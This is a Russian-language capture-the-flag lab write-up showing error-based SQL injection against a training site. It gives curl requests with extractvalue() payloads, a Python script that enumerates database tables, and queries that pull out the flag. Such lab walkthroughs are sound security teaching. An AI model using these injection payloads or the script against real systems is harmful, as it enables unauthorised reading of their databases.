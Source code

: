 
С помощью curl отправляем запрос и получим ошибку с содержанием таблицы
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "title=1' AND extractvalue(1,concat(0x3a,(SELECT concat(0x3a,table_name) FROM information_schema.tables LIMIT 0,1))) -- " http://web.aj4kmrm6p8hf2otu98jf.labs.cyber-ed.space/

![](../../attachment/Pasted%20image%2020250421221057.png)

Создаем скрипт который отправит запросы на таблицу 0-99
```import requests

# URL цели
url = "http://web.aj4kmrm6p8hf2otu98jf.labs.cyber-ed.space/"

# Заголовки запроса
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Файл для записи результатов
output_file = "results.txt"

# Открываем файл для записи
with open(output_file, "w") as file:
    # Цикл для отправки запросов с N от 0 до 99
    for n in range(100):
        # Формируем payload
        payload = f"title=1' AND extractvalue(1,concat(0x3a,(SELECT concat(0x3a,table_name) FROM information_schema.tables LIMIT {n},1))) -- "
        
        # Отправляем POST-запрос
        response = requests.post(url, headers=headers, data=payload)
        
        # Проверяем ответ на наличие ошибки XPATH syntax error
        if "XPATH syntax error" in response.text:
            # Извлекаем сообщение об ошибке
            start = response.text.find("XPATH syntax error: '") + len("XPATH syntax error: '")
            end = response.text.find("'", start)
            error_message = response.text[start:end]
            
            # Записываем результат в файл
            file.write(f"N={n}: {error_message}\n")
            print(f"N={n}: {error_message}")
        else:
            print(f"N={n}: No error found")
```
Получим результат
![](../../attachment/Pasted%20image%2020250421221213.png)

Посмотрим таблицу flag_here
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "title=1' AND extractvalue(1,concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.columns WHERE table_name='flag_here'))) -- " http://web.aj4kmrm6p8hf2otu98jf.labs.cyber-ed.space/
Находим колонку flag_column и заберем флаг с помощью двух команд (без второй команды не хватает 2 символа)

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "title=1' AND extractvalue(1,concat((SELECT concat(flag_column) FROM flag_here))) -- " http://web.aj4kmrm6p8hf2otu98jf.labs.cyber-ed.space/

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "title=1' AND extractvalue(1,concat(0x3a,(SELECT SUBSTRING(flag_column,20,1000) FROM flag_here))) -- " http://web.aj4kmrm6p8hf2otu98jf.labs.cyber-ed.space/
